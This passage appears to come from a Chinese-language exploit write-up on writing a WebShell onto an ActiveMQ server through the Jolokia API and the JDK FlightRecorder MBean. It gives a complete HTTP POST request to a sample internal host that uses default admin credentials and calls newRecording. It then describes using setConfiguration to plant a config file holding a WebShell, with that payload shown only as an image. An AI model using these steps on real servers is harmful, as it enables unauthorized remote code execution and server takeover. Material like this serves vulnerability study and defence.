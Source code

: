 **构造数据包：**

1、调用 newRecording，获取 ID 为 1

```http
POST /api/jolokia/ HTTP/1.1
Host: 172.23.80.196:8161
Origin:172.23.80.196:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Type: application/json

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```

![image-20231201133945413](assets/1705390067-1ef626391230b08a4042fca38d700cf4.png)

2、调用 setConfiguration 构造包含 WebShell 的配置文件，注意需要把 xml 数据的双引号转义并去除换行

![image-20231201134832579](assets/1705390067-ce9c143f0ddb86be479649a247dc7c0c.png)

